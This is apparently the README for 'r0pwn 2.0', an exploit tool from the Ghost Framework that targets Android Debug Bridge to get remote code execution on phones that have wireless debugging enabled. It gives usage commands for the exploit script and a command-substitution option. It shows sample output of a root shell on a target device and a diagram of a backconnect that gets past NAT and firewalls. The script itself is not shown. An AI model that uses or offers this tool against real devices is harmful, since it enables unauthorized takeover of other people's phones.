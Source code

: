 # r0pwn 2.0 ([Ghost Framework](https://github.com/entynetproject/ghost))

![r0pwn](https://user-images.githubusercontent.com/54115104/83108136-04a44800-a0c8-11ea-8cf8-4acf766ca928.png)

*hmm... r0pwn means robot pwn?*

    Android Debug Bridge RCE exploit.

## Table of contents

* [Official Release](#release)
* [Dependencies](#dependencies)
* [Exploiting](#exploiting)
* [Code Substitution](#substitution)
* [Exploit Algorithm](#algorithm)
* [Exploit Credits](#credits)

## Release

This is a repo of an exploit, but this exploit is a part of the Ghost Framework developed by @entynetproject.

[Ghost Framework](https://github.com/entynetproject/ghost)

## Dependencies

* `android-platform-tools`

## Exploiting

```shell
python3 exploit.py <target>
```

**NOTE:** Target should have wireless debugging turned on

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
root@nevada:~# whoami
root
root@nevada:~#
```

## Substitution

```shell
root@kali:~/r0pwn# python3 exploit.py <target> -s <code>
```

**NOTE:** Angry substitution will not work without SUID/root!

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75 -s whoami

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
substituting whoami...
executing whoami...
root
```

## Algorithm

```
                    backconnect (over ADB)
               +------------------------------+
               |                              |
attacker --- r0pwn --- NAT -+- Firewall -+- target
                            |            |
                            +------------+
                                bypass
```

## Credits

**Authors:**

* Ivan Nikolsky (@enty8080) - `research` and `development`.

**Special Thanks:**

* [PhoneSploit](https://github.com/metachar/PhoneSploit) - thanks for `inspiration`.
